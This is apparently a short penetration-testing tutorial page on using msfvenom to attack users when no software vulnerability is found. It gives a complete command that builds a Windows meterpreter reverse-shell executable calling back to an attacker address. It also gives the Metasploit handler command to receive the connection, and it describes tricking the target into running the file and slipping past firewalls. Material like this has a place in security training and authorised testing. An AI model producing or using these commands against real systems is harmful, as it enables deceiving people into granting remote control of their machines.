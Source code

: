 # Msfvenom

Okay, so you have failed to discover any vulnerabilites in the system you are attacking. Fear not, there is still a last resort. Usually the weakest link: **the user**.

With msfvenom we are able to create exploits that we can send to the target, and trick the target to click it. The program will then call our machine.

## Create exploit

Here we create a program that will call the attacker machine.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=4444 -f exe > payload.exe
```

## Start listening for exploit

So once an exploit is set we need to start to listen for it. We can do that using metasploit.

```
use exploit/multi/handler
```

This does indeed bypass the firewall. Since the connection is initiated from the inside. A firewall normally (maybe older firewalls) only block incoming, and not outgoing connections.